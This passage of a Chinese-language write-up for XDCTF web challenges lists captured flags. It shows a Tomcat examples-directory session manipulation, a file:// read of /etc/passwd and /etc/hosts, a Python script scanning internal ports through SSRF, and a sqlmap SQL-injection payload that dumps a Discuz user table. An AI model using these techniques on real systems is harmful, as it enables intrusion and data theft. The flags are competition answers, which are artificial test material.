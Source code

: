 ######flag XDCTF{XTchInaIqLRWlJF0RI59aoVr5atctVCT}

###WEB1-200
http://flagbox-23031374.xdctf.win:1234/
查看源代码提示

    <a class="small right floated item" href='/examples'>//nobody guess this url to login,hoho~ 
访问examples 探针提示是jsp 想到了[
Apache Tomcat样例目录session操纵漏洞](http://zone.wooyun.org/content/20238)
根据设置Session 

    user=Administrator login=true 
    
成功获得flag

######flag XDCTF{2b5b7133402ecb87e07e85bf1327bd13}

###WEB1-300
 (这题真。。)
 首页提示read 就想到了php的file://协议 成功读到了/etc/passwd
 读取http://133.130.90.188/index.php?link=file:///etc/hosts
 ```
127.0.0.1	localhost
127.0.1.1	ubuntu

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1	9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
```
由于http://133.130.90.188/.user.ini 提示basedir 基本毁灭了找nginx配置文件的想法
打算跑一下端口查看下有什么敏感信息否
```
import requests

for i in range(65535):
    target = "http://133.130.90.188/index.php?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:%s/" %i
    try:
        r = requests.get(target,timeout=5)
        lens =  len(r.text)
        if lens != 145:
            print target
    except Exception,e:
        pass
    
```

发现了22 80 3306 3389...开着 3389很可疑 访问了一下 发现是个Discuz7.2 操起exp直接尝试sqli
payload
```
sqlmap -u "http://133.130.90.188/index.php?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/faq.php%3Faction%3Dgrouppermission%26gids%5B99%5D%3D%2527%26gids%5B100%5D%5B0%5D%3D%2529*" --suffix="%2523 " --technique=E --dbms=mysql  --dump -T "cdb_members" -D "dz72"
```
![](./2.png)
